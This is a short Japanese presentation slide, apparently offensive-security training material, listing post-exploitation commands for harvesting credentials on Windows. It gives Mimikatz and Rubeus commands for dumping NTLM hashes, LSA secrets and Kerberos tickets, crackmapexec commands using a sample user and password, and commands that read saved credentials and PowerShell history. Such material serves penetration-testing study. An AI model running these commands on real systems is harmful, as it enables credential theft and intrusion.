

Post Exploit (クレデンシャル調査)
■NTLMハッシュダンプ
Mimikatz使える場合：
　sekurlsa::logonpasswords
　lsadump::lsa /patch
　lsadump::sam

Mimikatz使えない場合：
　proxychains -q crackmapexec smb 172.16.190.10 -u joe -p Flowers1 --local-auth --lsa
　proxychains -q crackmapexec smb 172.16.190.10 -u joe -p Flowers1 --local-auth --sam

■Kerberosチケットダンプ
Mimikatz：
　sekurlsa::tickets /export

Rubeus：
　.\Rubeus.exe triage
■Powershellコマンドヒストリー
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
■保存されたクレデンシャルの確認
cmdkey /list